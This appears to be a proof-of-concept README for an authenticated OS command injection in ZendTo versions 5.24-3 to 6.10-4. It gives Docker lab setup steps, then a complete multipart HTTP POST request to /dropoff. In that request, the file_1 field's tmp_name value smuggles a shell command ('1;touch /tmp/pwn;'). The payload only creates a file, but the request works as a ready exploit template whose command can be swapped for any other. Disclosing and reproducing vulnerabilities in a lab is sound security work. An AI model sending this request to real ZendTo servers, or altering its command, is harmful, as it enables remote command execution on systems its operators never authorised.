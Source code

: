 # ZendTo v5.24-3 <= v6.10-4 Authenticated OS Command Injection

## Lab setup

Build the docker container using the following command:

```
$ docker build -t zendto-container .
$ docker run -d -p 443:443 zendto-container
```

Once done, drop a shell into the container. Your container name might be different, please adjust accordingly.

```
$ docker ps
CONTAINER ID   IMAGE              COMMAND                  CREATED          STATUS          PORTS                               NAMES
858531d955e1   zendto-container   "/entrypoint.sh"         14 minutes ago   Up 14 minutes   0.0.0.0:443->443/tcp                charming_raman

$ docker exec -it charming_raman /bin/bash
```

Next, execute the below commands and follow the prompt (just need to press `Enter`) to complete the installation, you don't need to reboot the box. 

```
root@858531d955e1:/# cd /opt/install.ZendTo/
root@858531d955e1:/opt/install.ZendTo# ./install.sh

[...SNIP...]

Well, it looks like we made it. Yay!

You will need to reboot the server and view the home page once
before going any further.
```

Finally, we will: 

- disable `reCAPTCHA`
- add a ZendTo user
- enable ClamAV

```
root@858531d955e1:/# nano /opt/zendto/config/preferences.php
  'captcha' => '', # Line 573, remove 'google'

root@858531d955e1:/# /opt/zendto/bin/adduser /opt/zendto/config/preferences.php 'jay' 'jay@prjblk.io' 'Jay Ng' 'Prjblk'
root@858531d955e1:/# service clamav-daemon start
```

Once done, we should see port `443` is running on our host machine. To access ZendTo, we might need to add the `docker` host to local dns file on `kali` as below.

```
$ tail -1 /etc/hosts
127.0.0.1       858531d955e1

$ curl -k https://858531d955e1
```

Done :)!. Please note that some parts of the lab won't be fully functional but this is enough to demonstrate our PoC. Any troubles, please send an us an email to icantsetuplab@prjblk.io.

## Exploitation

Send the following request to create a `/tmp/pwn` file.

```
POST /dropoff HTTP/1.1
Host: 858531d955e1
Cookie: zendto-session=[OMITTED]
Content-Length: 2297
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryluj4shZr0G7o5tcO
Origin: https://858531d955e1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="Action"

dropoff
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="auth"


------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="req"


------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="senderOrganization"

Prjblk
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="encryptPassword"


------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="chunkName"

cZwpzbee4knd4jJb3BS7evhVZJxJ8Ssd
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="subject"

Jay Ng has dropped off files for you
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="recipName_1"

test
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="recipEmail_1"

test@prjblk.io
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="recipient_1"

recipient_id
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="note"


------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="checksumFiles"

on
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="confirmDelivery"

on
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="informRecipients"

on
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="informPasscode"

on
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="lifedays"

14
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="lifeexpiry"

2025-04-01 11:07
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="desc_1"


------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="file_1"

{"name":"test.php","type":"","size":"34","tmp_name":"1;touch /tmp/pwn;","error":0}
------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="desc_1"


------WebKitFormBoundaryluj4shZr0G7o5tcO
Content-Disposition: form-data; name="sentInChunks"

1
------WebKitFormBoundaryluj4shZr0G7o5tcO--
```
